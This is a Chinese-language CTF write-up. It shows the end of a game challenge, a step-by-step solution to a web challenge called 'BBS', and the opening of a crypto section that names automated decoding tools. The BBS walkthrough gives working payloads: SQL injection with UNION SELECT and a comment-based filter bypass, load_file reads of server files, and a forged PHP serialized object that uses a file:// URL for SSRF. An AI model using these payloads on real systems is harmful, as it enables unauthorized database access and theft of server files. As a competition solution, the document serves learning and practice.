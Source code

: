 现在开局就有无限属性+全橙卡 开始你的逆天之路吧！  
不一定能渡劫成功 但是因为改掉了延迟，基本一轮不到5秒 开几轮就能拿到flag。
![result](/img/life2.png)  
> flag{My_fate_1s_up_to_M3_in_Cyber_W0rld}

### BBS
注册一个账号 登录后发现网页会内嵌blog中的网址，同时发现请求的参数为  
>view.php?no=2  

加个分号试试 view.php?no=2'
> [*] query error! (You have an error in your SQL syntax; check the manual that corresponds to your MariaDB server version for the right syntax to use near ''' at line 1  

看到这报错信息，DNA动了  
orderby爆字段数量，5时报错说明字段数为4  
>?no=1 order by 4# 

union select被屏蔽 用/**/就可以绕过，发现字段2可以直接回显  
>?no=9 union/**/select 1,2,3,4#  

这时候有SQL注入大佬可能会先看看权限
>?no=9 union/**/select 1,user(),3,4#  

一查吓一跳，root@localhost，那还注什么，直接随便打拿flag了  
>?no=9 union/**/select 1,load_file("/var/www/html/flag.php"),3,4#  

执行后在用户名的地方查看源码就能得到flag   

那如果不是SQL注入大佬，没有一步拿到flag，我们接着往下做：  
查信息表找表名，列名 内容  
>?no=9 union/**/select 1,(select table_name from information_schema.tables limit 1 offset 0),3,4#  

>?no=9 union/**/select 1,(select column_name from information_schema.columns where table_name='users' limit 1 offset 3),3,4#  

>?no=9 union/**/select 1,(select data from users where no=2),3,4#
可以知道表的结构为：
- no 用户id
- name 用户名
- password 密码的hash
- data O:8:"UserInfo":3:{s:4:"name";s:1:"a";s:3:"age";i:1;s:4:"blog";s:20:"http://www.baidu.com";}

其中data看起来是序列化的php内容，试着放到结果中  
> ?no=9 union/**/select 1,2,3,'O:8:"UserInfo":3:{s:4:"name";s:1:"a";s:3:"age";i:1;s:4:"blog";s:20:"http://www.baidu.com";}'#

会发现反序列化了我们的内容，这时候有经验的web大佬又已经想到了伪协议SSRF了，只需要更改一下序列化的内容就能读出flag  
没有想到的同学也可以通过查看robots.txt得到源码 查看逻辑得知反序列化过程  
> ?no=9 union/**/select 1,2,3,'O:8:"UserInfo":3:{s:4:"name";s:1:"a";s:3:"age";i:1;s:4:"blog";s:29:"file:///var/www/html/flag.php";}'# 

执行后在bolg预览的地方查看源码就能得到flag   
>flag{U_mast3red_inj3ctiOn_Unser1alize_and_SSrF!}
## Crypto
### at_bash
有很多种方法做，分享几个自动化的解法，以下仓库都在github上开源，其中CyberChief有在线版本：  
- Ciphey 可以全自动解决问题
![ciphey](/img/ciphey.png)
- BaseCrack 可以解决大量的base编码
![BaseCrack](/img/basecrack.png)
- CyberChief 可以自动解决很多步骤
![CyberChief](/img/cyberchief.png)
